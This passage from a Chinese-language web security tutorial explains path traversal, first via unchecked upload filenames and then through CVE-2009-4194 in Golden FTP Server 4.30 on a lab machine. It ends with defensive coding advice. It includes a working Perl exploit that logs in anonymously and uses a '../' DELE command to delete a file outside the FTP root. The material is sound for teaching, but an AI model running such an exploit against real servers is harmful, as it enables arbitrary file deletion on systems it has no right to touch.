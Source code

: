```
    ...
}

```

上述代码一方面没有对上传的文件类型进行检查（这节课我们不探讨这个安全问题），另一方面没有检查filename就直接进行了拼接，因此攻击者只需要通过Burpsuite、ZAP等Proxy应用对Request进行拦截和修改filename属性即可利用路径穿越漏洞。

在了解典型的风险场景之后，我们来看一下实战中真正出现过的安全漏洞。

## 案例实战

#### **CVE-2009-4194**

该漏洞是一个目录穿越漏洞，影响的软件版本是Golden FTP Server 4.30 Free 以及 Professional版本、4.50版本（未验证），允许攻击者通过DELE命令删除任意文件。

启动MiTuan中的CVE-2009-4194靶机，这是一个Windows 7系统，内置了Golden FTP Server 4.30版本，并且已经预先设置好了FTP共享路径：

```
C:\Users\sty\Desktop

```

接下来构建我们的攻击程序，为了方便我们采用Perl语言。如果你使用的是Mac电脑，那么你可以无需配置环境，直接运行我们编写好的攻击程序体验效果：

```
use strict;
use Net::FTP

print "1";
my $ftp = Net::FTP->new("52.81.192.166", Debug => 1) || die $@;

$ftp->login("anonymous", "") || die $ftp->message;

$ftp->cwd("/Desktop/") || die $ftp->message;

# This deletes the file C:\Users\sty\test.txt
$ftp->delete("../test.txt");

$ftp->quit;

$ftp = undef;

```

通过上述的代码，我们可以看到`C:\Users\sty\test.txt`文件已经被删除了，我们成功穿越了FTP Server的限制，实现了了任意文件的删除！又一个神奇的漏洞被我们成功利用了，身为勇士的你成功地获取了城堡内宝藏的控制权。

## 防御方案

既然我们已经了解了漏洞的原理、发生的场景以及利用方式，那么我们要如何防御这种类型的攻击，并且预防潜在的漏洞出现呢？我们可以从不同的阶段出发，进行多维度安全建设，从而最大化地降低这类风险出现的概率。

**在编码实现阶段：**-
1. 假设所有的输入都是恶意的，使用“只接受已知的善意的”输入检查策略，也就是使用一些定义清晰且严格的参数格式；-
2. 输入都应该被解码为程序内部的处理格式，并且确保在应用系统没有被二次解码，防止攻击者通过编码或者二次编码进行绕过；-
3. 如果可能，为用户提供选项或者通过应用系统内部ID映射的方式进行对象访问，例如ID 1对应“info.txt”；-
4. 确保Error Message只包含最小必要信息，避免过于详细的信息展示，防止攻击者因此获取系统相关信息。
